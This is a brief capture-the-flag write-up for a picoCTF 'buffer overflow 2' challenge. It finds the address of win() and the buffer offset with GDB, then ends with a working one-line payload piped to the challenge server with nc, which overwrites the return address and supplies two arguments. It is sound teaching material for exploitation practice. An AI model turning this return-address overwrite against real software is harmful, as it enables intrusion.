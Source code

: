 # buffer overflow 2

0. vuln.c _. we need to call win() with two arguments: 0xCAFEF00D, 0xFOODFOOD
1. GDB -> set breakpoint in vuln() after gets(), run and give a string of a's as input
2. `disas win`, `i f` & `x/100xg $ebp-200` give the following:
    - win() is at **0x08049296**
    - buffer starts at **ebp-0x6c**
3. We know that:
    - return address is at **ebp+4**
    - first arg is at **ebp+8**
4. The following works:

    ```shell
    python3 -c 'import sys; sys.stdout.buffer.write(b"A"*0x70 + b"\x96\x92\x04\x08" + b"B"*4 + b"\x0d\xf0\xfe\xca" + b"\x0d\xf0\x0d\xf0\n")' | nc saturn.picoctf.net 50486
    ```
